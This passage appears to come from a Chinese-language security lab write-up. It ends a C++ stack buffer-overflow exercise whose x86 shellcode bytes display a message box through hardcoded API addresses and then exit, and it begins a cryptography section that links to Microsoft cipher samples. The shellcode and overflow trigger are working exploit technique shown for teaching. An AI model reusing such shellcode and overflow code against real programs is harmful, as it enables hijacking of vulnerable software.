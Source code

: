 ```cpp
0x55, 0x8b, 0xec, 0x55, 0x51, 0x8b, 0xec, 0x83, 0xec, 0x54, 0x33, 0xc9, 0xc6, 0x45, 0xec, 0x5e, 0xc6, 0x45, 0xed, 0x6f, 0xc6, 0x45, 0xee, 0x5e, 0xc6, 0x45, 0xef
, 0x2e, 0xc6, 0x45, 0xf0, 0x2e, 0xc6, 0x45, 0xf1, 0xb6, 0xc6, 0x45, 0xf2, 0xd1,
0xc6, 0x45, 0xf3, 0xd5, 0xc6, 0x45, 0xf4, 0xbb, 0xc6, 0x45, 0xf5, 0xb3, 0xc6, 0x45, 0xf6, 0xc9, 0xc6, 0x45, 0xf7, 0xb9, 0xc6, 0x45, 0xf8, 0xa6, 0xc6, 0x45, 0xf9
, 0xd2, 0xc6, 0x45, 0xfa, 0xe7, 0xc6, 0x45, 0xfb, 0xb3, 0xc6, 0x45, 0xfc, 0xf6,
0xc6, 0x45, 0xfd, 0x21, 0x88, 0x4d, 0xfe, 0x51, 0x8d, 0x45, 0xf1, 0x50, 0x8d, 0x45, 0xec, 0x50, 0x51, 0xc7, 0x45, 0xe0, 0xde, 0xd8, 0xe4, 0x77, 0xff, 0x55, 0xe0
, 0xc7, 0x45, 0xd0, 0x39, 0x30, 0x81, 0x7c, 0xff, 0x55, 0xd0, 0x8b, 0xe5, 0x59,
0x5d, 0x33, 0xc0, 0x5d, 0xc3, 0x90, 0x90, 0x90

	};

	if( Load_user32_library() == -1 )
		return 0;

	overflow((char*)shellcode, (unsigned int)strlen(shellcode));

	getchar();
	return 0;
}
```

![image-20220623143841445](et5/image-20220623143841445.png)



### 2密码学

代码仓库：https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/Security/CipherEncryptionDecryption
